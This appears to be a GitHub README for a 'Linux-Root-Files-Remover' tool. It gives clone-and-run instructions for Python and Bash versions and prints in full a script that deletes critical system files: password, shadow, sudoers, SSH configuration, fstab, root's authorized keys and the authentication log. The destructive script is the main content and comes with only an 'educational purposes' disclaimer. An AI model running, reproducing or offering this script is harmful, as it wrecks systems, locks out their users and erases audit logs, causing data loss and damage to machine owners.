 <!--Linux-Root-Files-Remover -->

<p align="center">
  <img src="images.png">
</p>

<h3><p align="center">Deleting Linux Root Files</p></h3>

This python script is used to delete critical system files and can cause a lot of damage if misused.

<h1><p align="center">How to Use This Script</p></h1>

<h3><p align="center">Run Python File</p></h3>

1. Install Python on your system if it is not already installed. You can download it from the official Python website.

2. Clone the repo to your device 

3. Open a terminal/command prompt and navigate to the directory where you saved the python file.

4. Run the python script using the command `Linux-Root.py`. This will execute the script and delete the files listed in the `files_to_delete` list.

<h3><p align="center">Run Bash File</p></h3>

- Just, Clone this repository -
  ```
  git clone https://github.com/7ussainnabeel/Linux-Root-Files.git
  ```

- Now go to cloned directory and run `Linux-Root.sh` -
  ```
  $ cd LINUX-ROOT-FILES
  $ bash Linux-Root.sh
  ```
##

<h3><p align="center">Code Explanation</p></h3>

```python
import os

files_to_delete = [
    "/etc/passwd",
    "/etc/shadow",
    "/etc/group",
    "/etc/sudoers",
    "/etc/ssh/sshd_config",
    "/etc/hosts",
    "/etc/network/interfaces",
    "/etc/fstab",
    "/etc/hostname",
    "/etc/resolv.conf",
    "/etc/securetty",
    "/etc/motd",
    "/var/log/auth.log",
    "/root/.ssh/authorized_keys",
    "/etc/hosts.allow",
    "/etc/hosts.deny",
    "/etc/crontab",
    "/etc/cron.d/",
    "/etc/passwd-",
    "/etc/shadow-",
]

for file in files_to_delete:
    if os.path.exists(file):
        os.remove(file)
        print(f"Deleted {file}")
    else:
        print(f"{file} does not exist")
```

The script first imports the os module which provides a way to interact with the system.

The files_to_delete list contains the file paths of the files that the script will delete.

The script then iterates over each file in the files_to_delete list. If the file exists, it is deleted using the os.remove() function. The print() function is used to display a message indicating whether the file was deleted successfully or not.

This Tool is made for educational purposes only. Do not attempt to violate the law with anything contained here. If this is your intention, then Get the hell out of here!

<h1><p align="left">License</p></h1>
This script is released under the MIT License.
